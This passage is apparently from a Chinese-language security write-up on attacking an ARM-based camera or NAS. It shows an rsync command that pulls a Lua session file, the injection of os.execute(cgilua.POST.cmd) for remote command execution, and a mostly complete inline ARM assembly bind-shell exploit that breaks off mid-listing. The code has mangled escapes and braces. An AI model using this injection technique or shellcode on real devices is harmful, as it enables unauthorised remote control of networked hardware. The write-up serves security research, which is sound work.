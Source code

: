 initsession 函数创建了一个文件名为 IP 地址的 session，文件储存在 /tmp/lua_session



```
&gt;&gt;&gt; ~/D/httpd rsync --password-file /tmp/p rsync@192.168.1.101::nas/HN1A009G9M12857/pwn/tmp/lua_session/
drwxrwxr-x          60 2016/11/01 12:11:12 .
-rw-r--r--         365 2016/11/01 12:35:55 192_168_1_100.lua
```

同步回来，加一句 os.execute(cgilua.POST.cmd);，然后同步回去。

[![](https://p3.ssl.qhimg.com/t0157927792f10574a4.jpg)](https://p3.ssl.qhimg.com/t0157927792f10574a4.jpg)

看起来已经成功执行了命令。但是我尝试了常见的 whoami、id 等命令，发现并不存在，通过 sh 反弹 shell 也失败了。感觉很尴尬233333

<br>

**0x03**

通过收集部分信息得知摄像头为 ARM 架构，编写一个 ARM 的 bind shell 的 exp：



```
void main()
`{`
    asm(
    "mov %r0, $2n"
    "mov %r1, $1n"
    "mov %r2, $6n"
    "push `{`%r0, %r1, %r2`}`n"
    "mov %r0, $1n"
    "mov %r1, %spn"
    "svc 0x00900066n"
    "add %sp, %sp, $12n"
    "mov %r6, %r0n"
    ".if 0n"
    "mov %r0, %r6n"
    ".endifn"
    "mov %r1, $0x37n"
    "mov %r7, $0x13n"
    "mov %r1, %r1, lsl $24n"
    "add %r1, %r7, lsl $16n"
    "add %r1, $2n"
    "sub %r2, %r2, %r2n"
    "push `{`%r1, %r2`}`n"
    "mov %r1, %spn"
    "mov %r2, $16n"
    "push `{`%r0, %r1, %r2`}`n"
    "mov %r0, $2n"
    "mov %r1, %spn"
    "svc 0x00900066n"
    "add %sp, %sp, $20n"
    "mov %r1, $1n"
    "mov %r0, %r6n"
    "push `{`%r0, %r1`}`n"
    "mov %r0, $4n"
    "mov %r1, %spn"
    "svc 0x00900066n"
    "add %sp, $8n"
    "mov %r0, %r6n"
    "sub %r1, %r1, %r1n"
    "sub %r2, %r2, %r2n"
    "push `{`%r0, %r1, %r2`}`n"
    "mov %r0, $5n"
    "mov %r1, %spn"
    "svc 0x00900066n"
```